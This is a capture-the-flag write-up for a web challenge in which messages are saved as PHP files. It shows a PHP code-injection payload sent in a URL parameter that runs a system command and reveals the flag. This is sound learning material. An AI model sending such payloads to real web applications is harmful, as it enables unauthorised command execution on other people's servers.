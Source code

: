 # Feb. 9 - Music
> Look at this neat website I found! It's not complete yet, but when it is, it will give you personlized music recommendations like you've never seen before! I think you should check it out. I left a Valentine as a message on the website 😁

## About the Challenge
We have been given a website and we need to find the flag from it (Because of the website is down all the time, i can't provide you any screenshot for this chall)

## How to Solve?
If we check the website, there is a form and if we submit the form there is a new endpoint like this
```
https://music-mhsctf.0xmmalik.repl.co/send.php?message=Test
```
And then 1-2 seconds, we will be redirected to a PHP file that the output of our input. The endpoint will look like this.
```
https://music-mhsctf.0xmmalik.repl.co/message/dzwdu6599.php
```

So, we can doing RCE (Remote Code Execution) by submitting PHP syntax like this

```
https://music-mhsctf.0xmmalik.repl.co/send.php?message=<?php system("ls"); ?>
```
And we will got the flag by checking someone's file :D

```
valentine{n3ver_g0nn4_give_y0u_up}
```
